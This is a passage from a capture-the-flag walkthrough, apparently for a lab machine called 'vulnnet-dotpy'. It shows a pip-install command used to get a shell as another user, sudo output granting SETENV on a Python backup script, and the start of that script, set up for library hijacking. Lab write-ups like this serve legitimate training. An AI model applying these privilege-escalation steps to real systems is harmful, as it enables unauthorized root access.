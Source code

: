 Then execute the following, to have our exploit run and our listener get a shell as the system-adm user
```
sudo -u system-adm /usr/bin/pip3 install /tmp/exploit
```

#Privilege Escalation
We can find the user.txt flag in the system-adm home directory and then find the following,
```
system-adm@vulnnet-dotpy:/tmp/pip-i1dkkxoz-build$ sudo -l
Matching Defaults entries for system-adm on vulnnet-dotpy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User system-adm may run the following commands on vulnnet-dotpy:
    (ALL) SETENV: NOPASSWD: /usr/bin/python3 /opt/backup.py
```

The presence of SETENV in the sudo entry for running backup.p gives me an idea that we are likely going to be working with some python libray hijacking so lets see what this file is doing and if we can make any modifications

```
system-adm@vulnnet-dotpy:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Dec 21 18:21 .
drwxr-xr-x 23 root root 4096 Dec 20 18:30 ..
-rwxrwxr--  1 root root 2125 Dec 21 18:21 backup.py

system-adm@vulnnet-dotpy:/opt$ cat backup.py
from datetime import datetime
from pathlib import Path
import zipfile


OBJECT_TO_BACKUP = '/home/manage'  # The file or directory to backup
BACKUP_DIRECTORY = '/var/backups'  # The location to store the backups in
MAX_BACKUP_AMOUNT = 300  # The maximum amount of backups to have in BACKUP_DIRECTORY


object_to_backup_path = Path(OBJECT_TO_BACKUP)
backup_directory_path = Path(BACKUP_DIRECTORY)
assert object_to_backup_path.exists()  # Validate the object we are about to backup exists before we continue

# Validate the backup directory exists and create if required
backup_directory_path.mkdir(parents=True, exist_ok=True)

# Get the amount of past backup zips in the backup directory already
existing_backups = [
    x for x in backup_directory_path.iterdir()
    if x.is_file() and x.suffix == '.zip' and x.name.startswith('backup-')
]

# Enforce max backups and delete oldest if there will be too many after the new backup
oldest_to_newest_backup_by_name = list(sorted(existing_backups, key=lambda f: f.name))
while len(oldest_to_newest_backup_by_name) >= MAX_BACKUP_AMOUNT:  # >= because we will have another soon
    backup_to_delete = oldest_to_newest_backup_by_name.pop(0)
    backup_to_delete.unlink()

# Create zip file (for both file and folder options)
backup_file_name = f'backup-{datetime.now().strftime("%Y%m%d%H%M%S")}-{object_to_backup_path.name}.zip'
zip_file = zipfile.ZipFile(str(backup_directory_path / backup_file_name), mode='w')
if object_to_backup_path.is_file():
```